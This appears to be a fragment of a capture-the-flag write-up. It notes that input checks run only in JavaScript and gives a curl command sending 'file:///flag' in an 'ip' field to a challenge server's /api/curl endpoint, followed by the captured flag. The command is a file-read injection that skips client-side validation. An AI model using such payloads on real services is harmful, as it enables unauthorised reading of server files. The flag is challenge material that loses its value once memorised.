 Due to the parsing being done in JS you can hit the backend api with no issues

curl -X POST -F "ip=file:///flag" http://46.101.53.249:31057/api/curl

CHTB{f1le_r3trieval_4s_a_s3rv1ce}